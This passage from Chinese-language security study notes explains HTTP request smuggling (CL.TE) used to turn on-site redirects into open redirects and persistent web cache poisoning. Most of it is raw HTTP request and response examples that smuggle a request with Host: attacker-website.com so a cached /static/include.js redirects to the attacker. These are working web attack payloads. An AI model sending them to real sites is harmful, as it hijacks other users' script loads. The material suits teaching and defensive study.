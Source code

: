   ```http
  GET /home HTTP/1.1
  Host: normal-website.com

  HTTP/1.1 301 Moved Permanently
  Location: https://normal-website.com/home/
  ```
  - 在此基础上，利用如下请求实施请求走私，将之后用户的访问重定向到攻击者的域名
  ```http
  POST / HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 54
  Transfer-Encoding: chunked

  0

  GET /home HTTP/1.1
  Host: attacker-website.com
  Foo: X
  ```
  - 用户再次访问时，产生如下重定向
  ```http
  GET /home HTTP/1.1
  Host: attacker-website.com
  Foo: XGET /scripts/include.js HTTP/1.1
  Host: vulnerable-website.com

  HTTP/1.1 301 Moved Permanently
  Location: https://attacker-website.com/home/
  ```
  - 在某些情况下，您可能会遇到使用路径为 Location 标头构造根相对 URL 的服务器级重定向，如下
  ```http
  GET /example HTTP/1.1
  Host: normal-website.com

  HTTP/1.1 301 Moved Permanently
  Location: /example/
  ```
  - 如果服务器允许您在路径中使用相对于协议的 URL，这可能仍可用于开放重定向
  ```http
  GET //attacker-website.com/example HTTP/1.1
  Host: vulnerable-website.com

  HTTP/1.1 301 Moved Premanently
  Location: //attacker-website.com/example/
  ```
- 在上述基础上，通过请求走私实施web缓存中毒，从而实现持续性的重定向攻击，例如如下请求将导致web缓存中毒
  - 在上述攻击的变体中，可能会利用 HTTP 请求走私来执行 Web 缓存中毒攻击。如果前端基础架构的任何部分执行内容缓存（通常出于性能原因），则可能会使用异地重定向响应毒害缓存。这将使攻击持续存在，影响随后请求受影响 URL 的任何用户。 在此变体中，攻击者将以下所有内容发送到前端服务器：
  ```http
  POST / HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 59
  Transfer-Encoding: chunked

  0

  GET /home HTTP/1.1
  Host: attacker-website.com
  Foo: XGET /static/include.js HTTP/1.1
  Host: vulnerable-website.com
  ```
  - 走私的请求到达后端服务器，后端服务器像以前一样使用异地重定向进行响应。前端服务器根据它认为是第二个请求中的 URL（即 /static/include.js）缓存此响应
  ```http
  GET /static/include.js HTTP/1.1
  Host: vulnerable-website.com
  ```